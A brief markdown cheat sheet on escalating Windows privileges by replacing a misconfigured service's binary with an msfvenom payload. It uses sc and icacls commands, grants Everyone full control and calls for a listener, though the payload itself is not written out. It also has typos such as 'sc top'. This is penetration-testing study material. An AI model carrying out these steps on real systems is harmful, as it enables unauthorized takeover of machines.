 # Service Misconfigurations

## Example:

### 1: Query for a service: 

    sc qc SERVICE

#### Services configurations are stored in: 

    HKLM\SYSTEM\CurrentControlSet\Services\

### 2: Check permissions with icacls:

#### If (M) is persent, we can overwrite it with our payload and service will execute with the privileges of the user account.

### 3: msfvenom payload

### 4: Replace original service with payload: 
 
    move ORIGINAL ORIGINAL.BKP

    move /location/of/payload FAKE_SERVICE

### 5: 

    icacls FAKE_SERVICE /grant Everyone:F

### 6: Setup listener

### 7: Restart Service: 

    sc top
    
    sc start

### *In powershell, use sc.exe to control services
